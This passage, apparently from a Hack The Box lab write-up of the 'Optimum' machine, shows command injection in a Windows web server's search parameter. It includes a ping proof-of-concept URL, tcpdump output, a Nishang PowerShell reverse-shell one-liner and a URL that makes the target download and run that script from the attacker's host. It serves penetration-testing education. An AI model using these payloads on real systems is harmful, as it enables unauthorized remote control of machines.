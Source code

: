In Python, `{}` in a `f-string (notice the url is wrapped in f' ')` represent variables, so the `{{` and `}}` are how you escape to write actual curly brackets. So this is just a single HTTP request to `/?search={.+exec|[url-encoded command].}` to get `RCE`.

I started `Burp`, intercepted thre request, sent it to the `Repeater` and edited the URL to the following, to check it was actually exploitable.

As a proof of concept, I crafted this URL to try to ping myself:
```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.16.2.}
```

If it works, I should see a single ICMP packet at my host. I started `tcpdump` and submitted, and nothing.

Often, this can be an issue with the system not finding the path to ping in this current environment. So I tried adding cmd `/c` before the command:
```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.16.2.}
```

It worked (interestingly four times):

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Optimum]
└─$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40
```

Now that I was able to get back the request, I decided to send a shell to the machine to get back a reverse shell on my machine. I grabed the PowerShell script from [Nishang](https://github.com/samratashok/nishang). I’ll copy the `Invoke-PowerShellTcpOneLine.ps1`, cut the comments, and update the IP and port:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.2',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

I’ll save a copy of that as rev.ps1 (just to make an easier url I’m about to request). Then I’ll start a Python web server, and visit:

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.2/rev.ps1').}
```

When the file is returned, it is executed by `IEX`, short for `Invoke-Expression`, and the shell connects back to my listening `nc` (for some reason on this shell the prompt only shows up after the first command):
